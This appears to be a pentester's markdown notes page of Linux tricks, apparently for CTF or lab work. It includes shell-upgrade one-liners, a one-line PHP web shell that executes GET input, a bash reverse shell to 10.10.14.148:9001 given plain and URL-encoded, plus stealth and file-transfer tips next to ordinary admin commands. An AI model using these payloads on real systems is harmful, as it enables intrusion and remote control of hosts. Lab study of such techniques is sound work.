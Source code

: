 ```yaml
---
description: 'Sorted Linux notes, need to separate to different pages and reorganize'
---
```


# Linux Notes

## Linux

Website for searching for shells through random programs such as 'vi' "living off the land binaries": [GTFObins](https://gtfobins.github.io/)

### Upgrade shells:

```text
1. python -c 'import pty; pty.spawn("/bin/sh")'
2. perl -e 'exec "/bin/sh";'
3. ruby -e 'exec "/bin/sh"'
```

To upgrade to fully interactive shell \(python example\):

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; 
ctrl-z #send to background
stty raw -echo #https://stackoverflow.com/questions/22832933/what-does-stty-raw-echo-do-on-os-x
stty -a #get number of rows & columns
stty rows <x> columns <y> #Set x number of rows & y columns
fg #to return shell to foreground
export TERM=xterm-color #allows you to clear console, and have color output
```

simple php shell: `<?php system($_GET['variable_name']); ?>`

bash reverse shell:

```text
bash -i >& /dev/tct/10.10.14.148/9001 0>&1

#URL encoded: 
bash+-i+>%26+/dev/tcp/10.10.14.148/9001+0>%261
```

### Remote Code Execution

[https://www.cyberciti.biz/faq/linux-unix-osx-bsd-ssh-run-command-on-remote-machine-server/](https://www.cyberciti.biz/faq/linux-unix-osx-bsd-ssh-run-command-on-remote-machine-server/) Run commands on remote system without a shell through SSH with a "Herefile"

```text
ssh server1 << HERE
 command1
 command2
HERE
```

### Misc Linux

Raw memory location so no files on disk: `/dev/shm/`

list all running commands:

```bash
ps -eo command`
#change delimiter to \n instead of <space> (loop by line): 
IFS=$'\n'
#Then loop through each line in output: 
for i in $(ps -eo command); do echo $i; done
```

[https://unix.stackexchange.com/questions/211817/copy-the-contents-of-a-file-into-the-clipboard-without-displaying-its-contents](https://unix.stackexchange.com/questions/211817/copy-the-contents-of-a-file-into-the-clipboard-without-displaying-its-contents) script to copy contents of file directly to clipboard; Save in PATH location then enjoy!

```text
#! /bin/bash
xclip -selection clipboard -i $@
```

'new' netstat: `ss -lnp | grep 9001` \#check if any connections on port 9001

copy files to local machine without file transfer:

```bash
base64 -w 0 /path/of/file/name.file 
#copy base64 then: 
echo -n <base64material> | base64 -d > filename.file
```

pretty print JSON text in console \([https://www.howtogeek.com/529219/how-to-parse-json-files-on-the-linux-command-line-with-jq/](https://www.howtogeek.com/529219/how-to-parse-json-files-on-the-linux-command-line-with-jq/)\). Pipe the JSON output to `jq`. Example from NASA ISS API: `curl -s http://api.open-notify.org/iss-now.json | jq`

### Check encoding of a text file

`vi -c 'let $enc = &fileencoding | execute "!echo Encoding: $enc" | q' <file_to_check>` check encoding of a text file \(needed especially when doing crypto with python, or cracking passwords with `rockyou.txt` - _hint: needs latin encoding!_\) [https://vim.fandom.com/wiki/Bash\_file\_encoding\_alias](https://vim.fandom.com/wiki/Bash_file_encoding_alias) \(how to make an alias for the above command\)

